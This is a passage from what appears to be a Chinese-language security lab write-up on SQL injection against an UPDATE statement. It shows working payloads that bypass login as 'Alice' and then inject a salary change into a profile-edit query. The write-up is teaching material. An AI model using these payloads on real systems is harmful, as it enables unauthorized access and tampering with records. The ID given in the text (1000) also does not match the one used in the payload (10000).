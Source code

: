 #### 任务 3.1:SQL 注入攻击的 UPDATE 语句-修改工资

> 如 Edit 中所示个人资料页面，员工只能更新自己的昵称、电子邮件、地址、电话号码和密码;他们无权改变自己的薪水。只有管理员才可以修改工资。如果你是一个恶意的员工(比如 Alice)，你在这个任务中的目标是通过编辑个人资料页面来增加你自己的薪水。我们假设您知道，工资存储在一个名为“工资”的列中。

首先利用 SQL 注入漏洞登录 Alice 账户。

```
'OR name ='Alice'#
```

![image-20220325120432958](SQLInjection/image-20220325120432958.png)

用 vim unsafe edit.php 查看源代码：

```
vim /var/www/SQLInjection/unsafe_edit.php
```

![image-20220325120956211](SQLInjection/image-20220325120956211.png)

Alice 的工资为 20000，ID 为 1000，现将工资改为 9999999，根据源代码，构造 SQL 语句如下：

```bash
',salary='9999999' where EID='10000';#
```
